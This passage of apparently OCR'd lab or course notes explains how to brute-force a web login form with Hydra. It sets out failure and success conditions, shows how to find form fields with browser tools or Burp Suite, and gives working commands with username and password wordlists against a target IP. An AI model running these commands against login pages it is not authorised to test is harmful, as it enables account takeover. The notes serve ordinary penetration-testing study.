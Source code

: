 ### Condition String
- **Failure Condition (`F=...`)**: Detects failed login attempts by checking for an error message.
- **Success Condition (`S=...`)**: Identifies successful logins based on redirects (302) or content like "Dashboard".

#### Example Commands:
Using a failure condition:
```bash
hydra -L users.txt -P passwords.txt target http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"
```
Using a success condition:
```bash
hydra -L users.txt -P passwords.txt target http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```

## Gathering Login Form Parameters
### Manual Inspection
1. Open Developer Tools (F12 in most browsers).
2. Inspect the login form HTML to find:
   - **Form submission path** (e.g., `/login` or `/`)
   - **Username field name** (e.g., `username`)
   - **Password field name** (e.g., `password`)
   - **Error messages** (e.g., "Invalid credentials")

### Using Proxy Tools (Burp Suite / OWASP ZAP)
1. Configure your browser to route traffic through the proxy.
2. Capture and analyze the login request.
3. Extract the exact parameters used for authentication.

## Constructing the Hydra Parameters String
Identified:
- Form submits data to `/`
- Username field: `username`
- Password field: `password`
- Failure message: `Invalid credentials`

### Final Hydra Command
```bash
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```

### Explanation
- `-L top-usernames-shortlist.txt` → Username list
- `-P 2023-200_most_used_passwords.txt` → Password list
- `-f` → Stops after finding the first valid login
- `IP -s 5000` → Target server IP and port
- `http-post-form` → Attack module for login forms
- `"/:username=^USER^&password=^PASS^:F=Invalid credentials"` → Form structure and failure condition

---